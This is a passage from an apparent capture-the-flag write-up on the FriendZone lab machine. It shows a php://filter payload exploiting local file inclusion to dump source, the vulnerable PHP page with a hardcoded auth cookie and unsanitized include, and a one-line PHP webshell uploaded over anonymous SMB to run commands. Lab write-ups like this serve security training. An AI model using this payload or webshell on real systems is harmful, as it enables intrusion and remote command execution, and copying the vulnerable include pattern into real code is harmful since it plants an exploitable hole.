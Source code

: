 So I guess there would be a LFI vulner.
I can use this LFI to read source code for these pages using php filters. If I visit pagename=php://filter/convert.base64-encode/resource=dashboard, I can see a long base64 string on the page:
![](images/Pasted%20image%2020241210060025.png)

And decode them, we can get the source code here.
```
<?php

//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
echo "<title>FriendZone Admin !</title>";
$auth = $_COOKIE["FriendZoneAuth"];

if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
 echo "<br><br><br>";

echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";

if(!isset($_GET["image_id"])){
  echo "<br><br>";
  echo "<center><p>image_name param is missed !</p></center>";
  echo "<center><p>please enter it to show the image</p></center>";
  echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
 }else{
 $image = $_GET["image_id"];
 echo "<center><img src='images/$image'></center>";

 echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
 include($_GET["pagename"].".php");
 //echo $_GET["pagename"];
 }
}else{
echo "<center><p>You can't see the content ! , please login !</center></p>";
}
?>

```

In this place, I can upload a webshell by the `Development` of SMB, and by use this LFI to exploit it.
```
root@kali# cat cmd.php 
<?php system($_REQUEST['cmd']); ?>

root@kali# smbclient -N //10.10.10.123/Development -c 'put cmd.php cmd.php'
putting file cmd.php as \0xdf.php (0.6 kb/s) (average 0.6 kb/s)
```
